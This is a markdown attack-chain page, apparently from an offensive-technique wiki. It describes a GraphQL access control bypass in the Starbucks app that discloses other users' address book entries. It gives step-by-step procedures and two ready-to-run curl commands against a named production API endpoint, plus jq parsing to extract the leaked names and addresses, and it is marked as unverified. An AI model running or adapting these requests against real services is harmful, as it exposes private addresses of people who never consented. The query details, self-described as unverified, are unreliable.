

# Starbucks GraphQL Access Control Bypass for Limited Address Book Disclosure

Multi-stage attack chain demonstrating exploitation of a GraphQL query bug in the Starbucks application, leading to improper access control and limited disclosure of other users' address book entries.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or API client (e.g., curl)

### Target Environment

- Starbucks web application
- GraphQL endpoint for address book management
- Authenticated user session

### Initial Access Requirements

- Valid user account in the Starbucks app
- Network access to the web platform
- No prior elevated privileges needed

## Detailed Attack Procedures

### Step 1: Craft and Send Malicious GraphQL Query
procedure: [[procedures/Craft-Malicious-GraphQL-Query-for-Address-Book]]

**Objective**: Modify the standard GraphQL query for fetching personal address book entries to trigger a backend API request with an 'undefined' parameter, bypassing access controls.

**Instructions**: Use browser developer tools or [[commands/send-graphql-query-curl]] to alter the query variables, setting the username or user ID field to a value that results in 'undefined' being passed to the backend API.

```bash
curl -X POST https://api.starbucks.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{"query": "query GetAddressBook($userId: ID!) { addressBook(userId: $userId) { entries { name address } } }", "variables": {"userId": null}}'
```

**Expected Output**: GraphQL response containing address book data.

**Success Indicators**:
- Query executes without error
- Backend API request logs show 'undefined' parameter

### Step 2: Analyze Backend API Response for Data Disclosure
procedure: [[procedures/Analyze-Backend-API-Response-for-Data-Disclosure]]

**Objective**: Intercept and examine the API response to extract address book entries from unintended accounts (those with username 'undefined'), confirming the access control bypass.

**Instructions**: Monitor the network tab in browser dev tools or use response parsing with [[commands/send-graphql-query-curl]] to capture and review the JSON payload for leaked data.

```bash
curl -X POST https://api.starbucks.com/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_TOKEN" \
  -d '{"query": "query GetAddressBook($userId: ID!) { addressBook(userId: $userId) { entries { name address } } }", "variables": {"userId": null}}' | jq '.data.addressBook.entries'
```

**Expected Output**: JSON array of address entries from 'undefined' accounts.

**Success Indicators**:
- Response includes addresses not belonging to the authenticated user
- No horizontal privilege escalation beyond 'undefined' accounts

## Attack Chain Summary

### Key Achievements

1. Bypassed GraphQL access controls via parameter manipulation
2. Disclosed limited address book data from other users
3. Demonstrated high-severity improper access control without full account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
